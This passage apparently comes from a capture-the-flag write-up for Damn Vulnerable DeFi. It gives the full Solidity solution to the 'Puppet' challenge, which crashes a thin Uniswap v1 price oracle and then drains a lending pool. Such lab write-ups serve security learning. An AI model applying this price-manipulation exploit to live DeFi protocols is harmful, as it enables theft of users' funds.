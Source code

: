 ```solidity
            );
        }
        
        lastUpdateTime[symbol] = block.timestamp;
        lastPrice[symbol] = newPrice;
        // ... rest of function
    }
}
```

---

## Challenge 8: Puppet

### Vulnerability
The lending pool uses a Uniswap v1 pair with low liquidity to determine token prices, making it vulnerable to price manipulation.

### Exploit Code
```solidity
// In Puppet.t.sol - test_puppet() function
function test_puppet() public checkSolvedByPlayer {
    // Calculate how much ETH needed to swap for all DVT tokens in Uniswap
    uint256 playerTokenBalance = token.balanceOf(player);
    
    // Approve tokens for Uniswap
    token.approve(address(uniswapV1Exchange), playerTokenBalance);
    
    // Swap all player DVT tokens for ETH to crash the price
    uniswapV1Exchange.tokenToEthSwapInput(
        playerTokenBalance,    // tokens to swap
        1,                     // min ETH out
        block.timestamp + 1    // deadline
    );
    
    // Calculate required ETH collateral after price manipulation
    uint256 poolTokenBalance = token.balanceOf(address(lendingPool));
    uint256 requiredETH = lendingPool.calculateDepositRequired(poolTokenBalance);
    
    // Borrow all tokens from pool
    lendingPool.borrow{value: requiredETH}(poolTokenBalance, player);
    
    // Send tokens to recovery
    token.transfer(recovery, token.balanceOf(player));
}
```

### Why it works
1. Uniswap v1 pool has low liquidity (10 ETH, 10 DVT)
2. Swapping all player tokens (1000 DVT) crashes the DVT price
3. Lending pool uses manipulated price to calculate collateral
4. Borrow all tokens with minimal ETH collateral
